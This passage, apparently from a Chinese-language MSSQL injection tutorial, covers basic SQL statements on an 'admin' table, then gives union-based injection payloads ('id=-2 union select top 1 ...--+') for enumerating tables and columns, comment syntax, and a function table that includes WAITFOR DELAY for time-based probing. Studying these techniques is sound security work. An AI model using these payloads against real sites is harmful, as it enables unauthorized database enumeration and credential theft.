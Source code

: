 ```sql

# 删除新表
drop table table_name;
drop table dbo.admin;

# 向表中插入数据
insert into table_name (column1,column2) values(value1,value2);
insert into admin (users,passwd,sex) values('admin','admin',1);

# 删除内容
delete from table_name where column1=value1;
delete from admin where sex=2;

# 更新内容
update table_name set column2=”xxx” where column1=value1;
update admin set users='admintest' where sex=2;

# 查找内容
select * from table_name where column1=value1;
select passwd from admin where users='admin';
```

```

```

- 排序&获取下一条数据
  - MSSQL数据库中没有limit排序获取字段，但是可以使用top 1来显示数据中的第一条数据，
  - 使用 <> 来排除已经显示的数据，获取下一条数据，也就是不等于的意思。
  - 使用not in来排除已经显示的数据，获取下一条数据 ，后面可以跟一个集合。

```sql
# 使用<>获取数据
id=-2 union select top 1 1,id,name from dbo.syscolumns where id='5575058' and name<>'id' and name<>'username'--+
# 使用not in获取数据
id=-2 union select top 1 1,table_name from information_schema.tables where table_name not in(select top 1 table_name from information_schema.tables)--+
id=-2 union select top 1 1,id,name from dbo.syscolumns where id='5575058' and name not in('id','username')--+
```

## MSSSQL注释

```sql
单行：--空格
多行：/**/
```

## 常用函数

| 名称                  | 功能                                                         |
| --------------------- | ------------------------------------------------------------ |
| suser_name()          | 用户登录名                                                   |
| user_name()           | 用户在数据库中的名字                                         |
| user                  | 用户在数据库中的名字                                         |
| db_name()             | 数据库名                                                     |
| @@version             | 返回SQL服务器版本相关信息                                    |
| quotename()           | 在存储过程中，给列名、表名等加个[]、’’等以保证sql语句能正常执行 |
| WAITFOR DELAY '0:0:n' | '时:分:秒'，WAITFOR DELAY '0:0:5'表示等待5秒后执行           |